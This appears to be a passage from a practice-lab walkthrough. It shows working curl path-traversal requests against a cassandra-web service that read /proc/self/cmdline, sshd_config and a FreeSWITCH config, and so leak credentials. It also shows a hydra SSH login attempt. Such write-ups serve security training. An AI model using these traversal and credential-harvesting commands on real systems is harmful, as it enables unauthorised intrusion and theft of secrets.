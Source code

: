 Let's see if the service command line contains any database credentials.

```
kali@kali:~$ curl http://192.168.120.155:3000/../../../../../../../../proc/self/cmdline --path-as-is
Warning: Binary output can mess up your terminal. Use "--output -" to tell
Warning: curl to output it to your terminal anyway, or consider "--output
Warning: <FILE>" to save to a file.
kali@kali:~$ curl http://192.168.120.155:3000/../../../../../../../../proc/self/cmdline --path-as-is --output -
/usr/bin/ruby2.5/usr/local/bin/cassandra-web-ucassie-pSecondBiteTheApple330
```

We notice the arguments contain the username: **cassie** which also exists in `/etc/passwd` and the password: **SecondBiteTheApple330**.

Let's quickly test if these credentias are valid for SSH using `hydra`.

```
kali@kali:~$ hydra -l cassie -p SecondBiteTheApple330 ssh://192.168.120.155
Hydra v9.0 (c) 2019 by van Hauser/THC - ...

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-02 14:00:56
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://192.168.120.155:22/
1 of 1 target completed, 0 valid passwords found
```

From the output we see these credentials are not valid. Let's inspect `/etc/ssh/sshd_config`

```
kali@kali:~$ curl http://192.168.120.155:3000/../../../../../../../../etc/ssh/sshd_config --path-as-is
#       $OpenBSD: sshd_config,v 1.103 2018/04/09 20:41:22 tj Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.
...
#Match User anoncvs
#       X11Forwarding no
#       AllowTcpForwarding no
#       PermitTTY no
#       ForceCommand cvs server

AllowUsers root anthony
```

We see that only **root** and **anthony** allowed to login via SSH.

Let's take a step back to our previous [Samba backup shares](https://portal.offsec.com/labs/practice#SMB) enumeration.

We'll check if the `event_socket.conf.xml` file exists.

```
kali@kali:~$ curl http://192.168.120.155:3000/../../../../../../../../etc/freeswitch/autoload_configs/event_socket.conf.xml --path-as-is
<configuration name="event_socket.conf" description="Socket Client">
  <settings>
    <param name="nat-map" value="false"/>
    <param name="listen-ip" value="0.0.0.0"/>
    <param name="listen-port" value="8021"/>
    <param name="password" value="StrongClueConEight021"/>
  </settings>
</configuration>
```
